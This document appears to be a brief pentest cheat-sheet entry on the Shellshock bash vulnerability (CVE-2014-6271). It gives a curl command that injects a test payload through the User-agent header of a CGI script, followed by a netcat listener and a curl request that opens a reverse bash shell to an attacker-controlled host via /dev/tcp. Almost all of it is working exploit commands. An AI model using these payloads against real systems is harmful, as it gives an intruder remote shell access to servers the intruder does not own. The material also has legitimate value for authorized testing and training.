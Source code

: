 ```yaml
---
title: CVE-2014-6271
---
```


- This cve (ShellShock) allows us to inject commands to the `/cgi-bin/test.cgi` directory
- Example of command:

```shell
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://IP_HOST/cgi-bin/test.cgi
```

- [More info](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)

- Get a reverse shell:

```shell
# On your machine start a listener
nc -nlvp PORT
# Then send a request for the shell
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/IP_ATTACK/PORT 0>&1" http://IP_HOST/cgi-bin/test.cgi
```
